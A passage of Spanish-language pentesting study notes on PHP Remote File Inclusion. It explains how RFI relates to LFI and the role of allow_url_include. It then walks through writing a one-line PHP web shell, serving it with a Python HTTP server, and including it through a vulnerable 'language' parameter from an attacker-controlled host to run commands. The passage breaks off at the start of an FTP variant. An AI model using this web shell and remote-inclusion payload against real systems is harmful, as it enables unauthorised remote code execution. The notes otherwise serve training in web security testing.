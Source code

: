Como vemos, casi cualquier vulnerabilidad RFI es también una vulnerabilidad LFI, ya que cualquier función que permita incluir URLs remotas suele permitir también incluir locales. Sin embargo, una LFI puede no ser necesariamente una RFI. Esto se debe principalmente a tres razones:

1.  Es posible que la función vulnerable no permita incluir URL remotas
2.  Solo puede controlar una parte del nombre del archivo y no todo el envoltorio del protocolo (por ejemplo: `http://`, `ftp://`, `https://`).
3.  La configuración puede evitar la RFI por completo, ya que la mayoría de los servidores web modernos deshabilitan la inclusión de archivos remotos de forma predeterminada.

>[!note]
>Cualquier inclusión de URL remota en PHP requeriría que la configuración `allow_url_include` esté habilitada. En la anterior seccion vimos como comprobarlo.

Sin embargo, es posible que esto no siempre sea confiable, ya que incluso si esta configuración está habilitada, es posible que la función vulnerable no permita comenzar con la inclusión de URL remota. Entonces, una forma más confiable es intentar cargar la misma pagina en donde estamos:

```bash
http://<SERVER_IP>:<PORT>/index.php?language=http://127.0.0.1:80/index.php
```

![[Pasted image 20230125162056.png]]

#### HTTP REMOTE FILE

Creamos una reverse shel en nuestra maquina local:

```bash
echo '<?php system($_GET["cmd"]); ?>' > shell.php
```

levantamos un servidor web HTTP local:

```bash
sudo python3 -m http.server
```

llamamos a nuestro archivo PHP:

```bash
?language=http://<OUR_IP>:<LISTENING_PORT>/shell.php&cmd=id
```

>[!note]
>En estos casos el parametro por GET se lo pasa usando `&`.
>

>[!tip]
> Si vimos que se agregó una extensión adicional (.php) a la solicitud, podemos omitirla de nuestra carga útil.

#### FTP REMOTE FILE

Creamos una reverse shel en nuestra maquina local:

```bash
echo '<?php system($_GET["cmd"]); ?>' > shell.php
```
